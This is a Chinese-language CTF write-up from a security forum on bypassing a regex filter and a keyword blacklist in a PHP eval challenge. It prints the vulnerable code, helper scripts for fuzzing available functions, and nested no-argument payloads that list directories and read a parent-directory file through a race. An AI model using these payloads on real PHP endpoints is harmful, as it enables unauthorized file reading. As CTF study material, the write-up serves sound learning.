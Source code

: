 

# 从一道 CTF 题学习 Fuzz 思想 - 先知社区

从一道 CTF 题学习 Fuzz 思想

- - -

## 前言

​ 最近参加了两个 CTF 比赛，都遇到了无参数 RCE 的问题。第一次遇到虽然没解出来，但是为第二次比赛遇到做了基础铺垫，第二次也迎刃而解，同时这次比赛也学到了很多 fuzz 的方法和思路，在这里做个总结。

## 题目

```bash
<?php
highlight_file(__FILE__);
$code = $_GET['code'];
if (!empty($code)) {
        if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
            if (preg_match('/readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    eval($code);
                }
            }
        else {
            echo "No way!!!";
        }
}else {
        echo "No way!!!";
    }
```

-   **题目分析**
    
    -   从题目第一个正则（`[a-z]+\((?R)?\)`）只匹配`字符串+（）`的类型，并且括号内为空字符串仅可以由 26 个小写字母组成。我们再看代码，`preg_replace()`函数对匹配成功的字符串替换为 NUILL，如果剩下的职业`(;)`那么就会通过这个正则。我们用一个代码来测试，我们传两个参数然后对这两个参数进行替换后打印看剩下的是什么值，就能很直观的看到这一点。

[![](assets/1698897274-44a6314529acac406120a74068b85b20.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109141911-d86da824-02b8-1.png)

[![](assets/1698897274-21d0b6b801aa4237be9a720cbf3202ba.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109141915-da9ebe12-02b8-1.png)

-   我们分别传入了`echo();`、`echo(122);`和`echo(phpinfo())`,可以看到参数一最终替换剩下一个`(;)`分号，而参数二无法匹配成功替换失败，参数三是 echo 嵌套一个 phpinfo 函数，同样匹配成功替换剩下一个`(;)`分号。那么这里就说明了我们这个正则虽然不能能够匹配存在参数的函数，但是可以嵌套函数使用。
    
-   题目第二个正则`(readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log)`过滤了哪些函数呢，这个我们可以直接编写两个脚本进行 FUZZ，第一个脚本可以获取 PHP 中所有内置函数，将它写到一个文本文件中。第二个 python 脚本则是匹配能够使用的函数，并将其打印出来，这样一来我们就知道有哪些函数能够为我们所用。
    
    -   获取 PHP 内置函数
    
    ```bash
    <?php
    $a = get_defined_functions()['internal'];
    $file = fopen("function.txt","w+");
    foreach ($a as $key ) {
     echo fputs($file,$key."\r\n");
    }
    fclose($file);
    ?>
    ```
    
    -   查找能使用的函数
    
    ```bash
    import re
    f = open('function.txt','r')
    for i in f:
        function = re.findall(r'/readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/',i) 
        if function == [] and not '_' in i:
            print(i)
    ```
    

-   **构造 payload-解决问题**
    
    -   首先题目出题人用了他工地英语 (开个玩笑) 提示了我们 flag 在上层目录下的`index.php`，那我们就需要读取上层目录下的`index.php`的源码，我们知道`scandir()`函数式能够读取源码，但是他必须带有参数`（'.'）`也就是`scandir('.')`，在不断阅读函数中我发现`uniqid()`函数能够生成动态的字符串，但是他前半部分是固定不变的，但是后半部分是动态变化的，正好`strrev()`函数也可以使用那么，我们就可以将它翻转过来然后直接转换转换为 char 不久可以动态构造任意字符了吗？发现这点，我立刻写了个脚本去验证我的想法。
        
        ```bash
        <?php
        error_reporting(0);
        for($i=0;$i<1000;$i++)
        echo(chr(strrev(uniqid())));
        ?>
        ```
        

[![](assets/1698897274-05ea2f5e12f51b9e89e934ab78df2fe2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109141927-e1f90fdc-02b8-1.png)

-   从脚本的运行结果来看已经达到了预期目的，生成了`(.)`点，那么我们通过条件竞争就可以达到预期目的。那么我们构造如下 payload 去读取文件目录看是否能成功，由于 scandir 返回的是数组，并且 var\_dump 是无法通过第一个正则的，所以我们可以使用`implode()`将数组转换为字符串在`echo()`打印出来。
    
    ```bash
    echo(implode(scandir(chr(strrev(uniqid())))));
    ```
    
-   我们传参后使用 burpsuite 进行条件竞争，可以看到成功获取文件目录。
    

[![](assets/1698897274-f5425219da20f76779dff8a5544d033e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109141937-e7c28704-02b8-1.png)

-   那么问题又来了，我们该如何去读取上层目录的 index.php 呢？首先我们要读取上层目录的文件，必须先跳转到上层目录，这里我们从我们脚本匹配的结果看`chdir()`函数并未被过滤，所以我们可以使用它先跳转到上层目录再去读取文件，但是要跳转到上层目录需要构造两个点即`chdir('..')`那么该如何构造呢，其实很简单，我们看上方返回了当前目录下的文件列表，其实它是返回来了一个数组，这个数组结构如下：
    
    ```bash
    [0=>'.',1=>'..',3=>'index.php']
    ```
    
-   我们可以发现第二个元素就是两个点，我们可以使用`next()`函数去获取到这两个点。我们先根据此读取到上层目录列表构造 payload 如下：
    
    ```bash
    echo(implode(scandir(next(scandir(chr(strrev(uniqid())))))));
    ```
    
-   传入这个 payload 再使用 burpsuite 进行条件竞争，可以发现已经读取了上层目录列表。
    

[![](assets/1698897274-35cd9f3520bdc289dedb579d576a9af1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109141956-f310edc6-02b8-1.png)

-   可以发现 index.php 是在这个目录列表数组中的最后一个元素，那么我们要读取这个文件名直接读取这个数组中的最后一个元素即可，这里我们可以使用`end()`函数获取，我们先跳转到上个目录：
    
    ```bash
    chdir(next(scandir(chr(strrev(uniqid())))))
    ```
    
-   读取文件呢，我们可以使用第一个 payload 读取到文件目录，然后使用 end() 函数去读取最后一个元素，进而读取文件这里我们使用 file() 函数去读取文件。
    
    ```bash
    file(end(scandir(chr(strrev(uniqid()))))
    ```
    
-   那么综合起来 payload 如下：
    
    ```bash
    echo(implode(file(end(scandir(chr(strrev(uniqid(chdir(next(scandir(chr(strrev(uniqid())))))))))))));
    ```
    
-   但是这里存在一个问题，那就是两次去的值不一定都是点，那么就需要进行 N 次爆破，在某一时刻这两个值都取到点的时候那么就会读取成功。
    

[![](assets/1698897274-60f0bad68ca22c2bbbaf34a2210bb40f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109142009-facfa9da-02b8-1.png)

-   当然最后官方 payload 是使用三角函数去算出这个点，但是这里主要是将以下我个人的想法，也希望这道题的解题思路，可以帮助到其他人。

## 总结

-   这道题可以说是上次`ByteCTF-boringcode`的 plus，但是题目不在多更多的是要掌握 Fuzz 的方法，从这次比赛中我也了解到了无参数函数的利用，其实无参数 RCE 的用法很多师傅都做了很多总结，但是我们在遇到问题时候可能出题人已经将这些网上公开的方法给 ben 掉了，这时候就需要我们去 Fuzz 去分析。
